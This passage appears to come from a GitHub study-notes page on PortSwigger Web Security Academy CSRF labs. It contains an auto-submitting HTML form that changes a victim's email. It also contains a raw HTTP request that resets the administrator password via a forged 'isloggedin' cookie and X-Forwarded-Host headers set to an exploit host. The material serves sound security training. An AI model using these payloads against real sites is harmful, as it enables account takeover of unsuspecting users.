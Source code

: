 ![csrf duplicated cookie](images/csrf-duplicated-cookie.png)  

[PortSwigger Lab: CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)  

### CSRF Token Present  

>Changing the value of the ```csrf``` parameter result in change email request being **rejected**. Deleting the CSRF token allow the change email to be **accepted**, and this ***identify*** that the validation of token being present is vulnerable.

>CSRF PoC Payload hosted on exploit server:  

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
    document.forms[0].submit();
</script>
```  

![csrf present validation fail](images/csrf-present-validation-fail.png)  

[PortSwigger Lab: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)  

### Is Logged In  
  
>If cookie with the **isloggedin** name is ***identified***, then a refresh of admin password POST request could be exploited. Change username parameter to administrator while logged in as low privilege user, CSRF where token is not tied to user session.  

```html
POST /refreshpassword HTTP/1.1
Host: TARGET.net
Cookie: session=%7b%22username%22%3a%22carlos%22%2c%22isloggedin%22%3atrue%7d--MCwCFAI9forAezNBAK%2fWxko91dgAiQd1AhQMZgWruKy%2fs0DZ0XW0wkyATeU7aA%3d%3d
Content-Length: 60
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://TARGET.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
Referer: https://TARGET.net/refreshpassword
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

csrf=TOKEN&username=administrator
```  
